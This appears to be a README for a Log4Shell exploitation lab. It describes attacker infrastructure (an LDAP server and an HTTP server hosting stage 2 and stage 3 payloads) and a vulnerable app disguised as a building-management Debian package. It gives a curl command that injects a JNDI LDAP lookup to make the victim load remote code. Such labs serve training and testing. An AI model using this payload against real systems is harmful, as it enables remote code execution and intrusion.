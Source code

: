 M75-LOG4J-VULNERABILITY
-----------------------

# Overview

![](./images/log4j-explained.webp)

# Project Structure

```
.
├── README.md
├── attacker                        # Attacker related files
│   ├── docker-compose.yml          # used to build and run the payload-generator, ldap server and http server containers
│   ├── http-dir                    # http server hosted directory
│   │   ├── Plugin.class            # Java class hosted by the http server ready for the victim (stage 2 payload)
│   │   └── fRitPo                  # Linux bash script (stage 3 payload)
│   ├── marshalsec                  # attacker ldap server
│   └── payload-generator           # dockerized payload generator (used to update jave source and compile it)
│       ├── Dockerfile              
│       └── Plugin.src.java         # stage 2 payload source code
├── images                          # README media
└── victim                          # Victim related files
    ├── Makefile                    # Helper script to build the debian package
    ├── buildingmgmt.1.0-2          # fake building management server/app source
    ├── buildingmgmt.1.0-2.deb      # distributable debian package ready for install
    └── log4shell-vulnerable-app    # log4j vulnerable app
```

### References
- [log4shell-dockerlab](https://javarepos.com/lib/ChoiSG-log4shell-dockerlab)

# Usage

## Victim

1. Download and install the vulnerable web app.
```bash
sudo apt-get update
wget -O /tmp/buildingmgmt.deb https://github.com/sintax1/M75-log4j-vuln/blob/master/victim/buildingmgmt.1.0-2.deb?raw=true
sudo apt install -y /tmp/buildingmgmt.deb
```

## Attacker

1. clone the source repo onto the attacker VM.

```
git clone https://github.com/sintax1/M75-log4j-vuln.git
```

2. Build and run the docker containers.

```
cd M75-log4j-vuln/victim
docker-compose up --build
```

3. Launch the exploit.

```
VICTIM=<The victim accessible IP or domain name accessible by the attacker>
VICTIM_VULN_PORT=<The port where the log4j vulnerable web app is running on the victim>
ATTACKER=<The attacker IP or Domain name accessible by the victim, for callbacks>
LDAP_PORT=1389
STAGE2_JAVA_CLASS_NAME=Plugin
curl ${VICTIM}:${VICTIM_VULN_PORT} -H 'X-Api-Version: ${jndi:ldap://${ATTACKER}:${LDAP_PORT}/${STAGE2_JAVA_CLASS_NAME}}'
```

# Development

## Victim

### Build .deb package

```bash
cd victim
make build

-- output --
cd log4shell-vulnerable-app; gradle bootJar --no-daemon
To honour the JVM settings for this build a single-use Daemon process will be forked. See https://docs.gradle.org/7.4.1/userguide/gradle_daemon.html#sec:disabling_the_daemon.
Daemon will be stopped at the end of the build 

BUILD SUCCESSFUL in 4s
4 actionable tasks: 4 up-to-date
cp log4shell-vulnerable-app/build/libs/*.jar buildingmgmt.1.0-2/opt/buildingmgmt/building-management.jar
dpkg-deb --build buildingmgmt.1.0-2
dpkg-deb: building package 'buildingmgmt' in 'buildingmgmt.1.0-2.deb'.
```

### Transfer to the victim and install

```bash
apt install buildingmgmt.*.deb
```